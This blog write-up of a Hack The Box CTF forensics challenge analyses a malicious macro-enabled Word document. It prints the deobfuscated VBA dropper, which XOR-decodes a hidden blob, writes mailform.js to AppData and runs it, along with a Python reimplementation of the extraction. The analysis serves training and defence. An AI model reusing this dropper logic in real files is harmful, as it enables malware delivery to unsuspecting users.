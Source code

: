 ```yaml
---
title: "Forensics: Game Invitation"
seoTitle: "Hack The Box CFT Cyber Apocalypse 2024 - Forensics: Game Invitation"
seoDescription: "Write-up for the Confinement challenge from HTB Cyber Apocalypse 2024. VBA macro analysis and malware deobfuscation."
datePublished: Sat Mar 16 2024 10:10:45 GMT+0000 (Coordinated Universal Time)
cuid: clttxgej7000008l936436y4u
slug: htb-cyber-apocalypse-forensics-game-invitation
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1710583252793/9804c2b2-e279-4d39-a417-4ef9fe489ca3.png
tags: malware, ethical-hacking, ctf-writeup

---
```


# Introduction

> In the bustling city of KORP™, where factions vie in The Fray, a mysterious game emerges. As a seasoned faction member, you feel the tension growing by the minute. Whispers spread of a new challenge, piquing both curiosity and wariness. Then, an email arrives: "Join The Fray: Embrace the Challenge." But lurking beneath the excitement is a nagging doubt. Could this invitation hide something more sinister within its innocent attachment?

**Type**: Forensics  
**Difficulty**: Hard  
**Event**: [**Hack The Box Cyber Apocalypse 2024: Hacker Royale**](https://ctf.hackthebox.com/event/details/cyber-apocalypse-2024-hacker-royale-1386) ([**ctftime**](https://ctftime.org/event/2255))

%%[support-cta] 

# Initial recon

Given: single DOCM file.

```plaintext
$ invitation.docm (read-only)
ce9f4c1bd44ff0a9131e63cf4f8c0ce5c1c8e4eb77bffe843a325d08b34eb9bb
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710578173550/297e0350-f9ae-4a3e-9f63-8eca7f459170.png align="center")

# Investigation

DOCM is are macro-enabled Microsoft Word document format. Analysis of this kind of files are in my opinion the most popular tasks whenever forensics category is included in CTF events. I covered two of those in my blog:

* [HTB Business CTF 2021: badRansomware](https://blog.cyberethical.me/htb-business-ctf-2021-badransomware)
    
* [HackTheBoo 2022: Halloween Invitation](https://blog.cyberethical.me/hacktheboo-2022-htb-ctf-write-ups#heading-halloween-invitation)
    

So without further ado, let's extract that VBA macro using [olevba](https://github.com/decalage2/oletools/wiki/olevba) Python script.

```plaintext
$ olevba invitation.docm
//... (output trimmed for readability)
```

# VBA macro

I will save you reading the origal, obfuscated script.

## Stage 01 (deobfuscated)

```basic
Public jspath As String
Public appdataPath As String

Function xorString(given_string() As Byte, length As Long) As Boolean
    Dim xor_key As Byte
    xor_key = 45
    For i = 0 To length - 1
        given_string(i) = given_string(i) Xor xor_key
        xor_key = ((xor_key Xor 99) Xor (i Mod 254))
    Next i
    xorString = TRUE
End Function

Dim filenumber
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
filenumber = FreeFile
Open (ActiveDocument.FullName) For Binary As #filenumber
Dim byteArray() As Byte
ReDim byteArray(file_length)
Get #filenumber, 1, byteArray
Dim convertedToUnicode As String
convertedToUnicode = StrConv(byteArray, vbUnicode)
Dim singeMatch, matches
Dim regexp
Set regexp = CreateObject("vbscript.regexp")
regexp.Pattern = "sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa"
Set matches = regexp.Execute(convertedToUnicode)
Dim indexOfFirstMatch
If matches.Count = 0 Then
    GoTo lable1
End If
For Each singleMatch In matches
    indexOfFirstMatch = singleMatch.FirstIndex
    Exit For
Next
Dim secondByteArray() As Byte
Dim arbitraryLength As Long
arbitraryLength = 13082
ReDim secondByteArray(arbitraryLength)
Get #filenumber, indexOfFirstMatch + 81, secondByteArray
If Not xorString(secondByteArray(), arbitraryLength + 1) Then
    GoTo lable1
End If
appdataPath = Environ("appdata") & "\Microsoft\Windows"
Set fileSystemObject = CreateObject("Scripting.FileSystemObject")
If Not fileSystemObject.FolderExists(appdataPath) Then
    appdataPath = Environ("appdata")
End If
Set fileSystemObject = Nothing
Dim fileNumber2
fileNumber2 = FreeFile
jspath = appdataPath & "\\" & "mailform.js"
Open (jspath) For Binary As #fileNumber2
Put #fileNumber2, 1, secondByteArray
Close #fileNumber2
Erase secondByteArray
Set shellObject = CreateObject("WScript.Shell")
shellObject.Run """" + jspath + """" + " vF8rdgMHKBrvCoCp0ulm"
ActiveDocument.Save
Exit Sub
lable1:
Close #fileNumber2
ActiveDocument.Save
End If
End Sub
```

1. Read current file (DOCM) binary.
    
2. Search for the pattern in the binary data.
    
3. Run custom XORing function over the succeeding 13082 bytes.
    
4. Resulting binary data is saves as a `mailform.js`.
    
5. WScript `mailform.js` is then executed with the argument `vF8rdgMHKBrvCoCp0ulm`
    

I have transcribed the VBA into the Python script to obtain the `mailform.js`.

## Stage 01 (Python)

```python
#!/usr/bin/python
import re

def xorString(given_string, length):
    xor_key = 45
    for i in range(length):
        given_string[i] = given_string[i] ^ xor_key
        xor_key = ((xor_key ^ 99) ^ (i % 254))
    return given_string

def main():    
    with open('invitation.docm', 'rb') as docmFile:
        byteArray = bytearray(docmFile.read())
        convertedToUnicode = byteArray

        pattern = b'sWcDWp36x5oIe2hJGnRy1iC92AcdQgO8RLioVZWlhCKJXHRSqO450AiqLZyLFeXYilCtorg0p3RdaoPa'
        matches = re.finditer(pattern, convertedToUnicode)
        
        indexOfFirstMatch = None
        for singleMatch in matches:
            indexOfFirstMatch = singleMatch.start()
            break
        
        if indexOfFirstMatch is None:
            print('pattern not found')
            return
        
        arbitraryLength = 13082
        docmFile.seek(indexOfFirstMatch + 80)
        secondByteArray = bytearray(docmFile.read(arbitraryLength))
        
        secondByteArray = xorString(secondByteArray, arbitraryLength)
                
        with open("mailform.js", 'wb') as docmFile2:
            docmFile2.write(secondByteArray)

if __name__ == "__main__":
    main()
```

This resulted in the JS file.

## Stage 02 (`mailform.js`)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582039879/d7c16e14-0dfd-4c97-b96f-17882bd3244d.png align="center")

Because it is a JavaScript we can leverage it **very carefuly** to let the browser decode the code for us and retrieve the next payload. Please do notice that I've marked the hazardous `eval(..)` function that has to be removed to neutralize the payload. I have replaces it with a `console.log(..)`.

> You never want any kind of `eval` or `Invoke-Expression` slip through.

## Stage 03

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582752891/c10521d0-1f18-40b7-9316-3b2912c732d6.png align="center")

More JavaScript to deobfuscate. Unless..

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582863874/461db9ca-4f35-4700-9a22-21dda7aaad64.png align="center")

And after decoding this in CyberChef 🎉

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710582987470/04941aaa-cb4d-4387-8f40-8f45c4308b2b.png align="center")

# Additional reading

%%[follow-cta] 

* [MITRE T1137.001 (Office Application Startup: Office Template Macros](https://attack.mitre.org/techniques/T1137/001/))

* ⭐ [Official HTB write-up](https://github.com/hackthebox/cyber-apocalypse-2024/tree/main/forensics/%5BHard%5D%20Game%20Invitation)
    
* [Write-up: HTB Business CTF 2021: badRansomware](https://blog.cyberethical.me/htb-business-ctf-2021-badransomware)
    
* [Write-up: HackTheBoo 2022: Halloween Invitation](https://blog.cyberethical.me/hacktheboo-2022-htb-ctf-write-ups#heading-halloween-invitation)